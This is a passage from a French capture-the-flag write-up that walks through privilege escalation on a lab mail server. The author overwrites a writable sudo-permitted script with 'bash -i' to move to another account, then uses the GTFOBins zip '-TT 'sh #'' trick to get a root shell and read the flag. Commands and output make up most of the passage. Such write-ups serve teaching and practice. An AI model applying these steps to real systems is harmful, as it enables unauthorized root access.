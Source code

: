 ```bash
echo "List of disks:"
echo "                    "

/usr/bin/lsblk

echo "--------------------"
```

Ce qui nous intéresse c'est le fait que `bob` puisse le lancer avec l'autre compte :

```bash
bob@MailServer:~$ sudo -l
Matching Defaults entries for bob on MailServer:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User bob may run the following commands on MailServer:
    (my2user) NOPASSWD: /bin/bash /opt/scripts/check.sh
```

Comme on a les droits d'écriture sur le script j'ai juste remplacé toutes les commandes présentes par `bash -i`.

Une fois connecté avec `my2user` on a une nouvelle entrée sudo à portée de main :

```bash
bob@MailServer:~$ sudo -u my2user /bin/bash /opt/scripts/check.sh
sudo: setrlimit(RLIMIT_CORE): Operation not permitted
my2user@MailServer:/home/bob$ id
uid=1001(my2user) gid=1001(my2user) groups=1001(my2user)
my2user@MailServer:/home/bob$ sudo -l
Matching Defaults entries for my2user on MailServer:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User my2user may run the following commands on MailServer:
    (root) NOPASSWD: /usr/bin/zip
```

On trouve vite fait un [GTFObin](https://gtfobins.github.io/gtfobins/zip/) pour cette commande :

```bash
my2user@MailServer:~$ mkdir yolo; sudo /usr/bin/zip yolo /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 33%)
# id 
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
1_flag.txt
# cat 1_flag.txt

       .88888.                          dP           dP          dP       
      d8'   `88                         88           88          88       
      88        .d8888b. .d8888b. .d888b88           88 .d8888b. 88d888b. 
      88   YP88 88'  `88 88'  `88 88'  `88           88 88'  `88 88'  `88 
      Y8.   .88 88.  .88 88.  .88 88.  .88    88.  .d8P 88.  .88 88.  .88 
       `88888'  `88888P' `88888P' `88888P8     `Y8888'  `88888P' 88Y8888' 
      oooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo
                                                                          
        Mail server is rooted.
        You got the first flag: 2c393307906f29ee7fb69e2ce59b4c8a
        Now go to the web server and root it.
```
